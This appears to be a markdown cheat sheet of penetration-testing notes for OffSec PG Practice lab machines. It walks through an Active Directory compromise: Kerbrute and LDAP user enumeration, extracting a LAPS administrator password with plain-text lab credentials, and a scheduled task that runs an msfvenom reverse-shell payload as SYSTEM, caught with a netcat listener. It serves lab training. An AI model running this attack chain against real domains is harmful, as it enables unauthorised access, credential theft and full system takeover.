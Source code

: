 ## Additional Techniques from PG Practice

#### Using Kerbrute for identifying users
```Shell
kerbrute_linux_amd64 userenum -d nara-security.com --dc 192.168.211.30 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```
![[nara user.png]]
#### Enumerating users with windapsearch
```Shell
python3 windapsearch.py --dc-ip $ip -u "" -U
```
#### Enumerate LDAP using ldapsearch
```Shell
ldapsearch -x -H ldap://$ip -b "dc=hutch,dc=offsec"
```
#### Output the ldapsearch information to a .txt file for grepable information
```Shell
ldapsearch -x -H ldap://$ip -b "dc=hutch,dc=offsec" > ldap_search.txt
```
#### Grep the output's `description` and `dn` attributes for potential discovery of credentials and other valuable information
```Shell
cat ldap_search.txt | grep "description\|dn"
```
![[freddy's coming.png]]
#### Using the [pyLAPS.py](https://github.com/p0dalirius/pyLAPS/tree/main) tool to extract the Administrator's password in LAPS
```Shell
python3 pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192"
```
![[pyLAPS PW.png]]
#### Using ldapsearch to enumerate LAPS password
```Shell
ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -H ldap://$ip "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
![[ldapsearch laps pw.png]]
### Creating and executing a scheduled task as Administrator to get a reverse shell as SYSTEM
```PowerShell
$pw = ConvertTo-SecureString "]bv{pZ,37xbQ+(" -AsPlainText -Force
```

```PowerShell
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```
#### Upload an msfvenom payload to `C:\inetpub\wwwroot\shell.exe`
#### Create the scheduled task
```PowerShell
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\inetpub\wwwroot\shell.exe /ru SYSTEM } -Credential $creds
```
#### Start a netcat listener
```Shell
rlwrap nc -lnvp 9443
```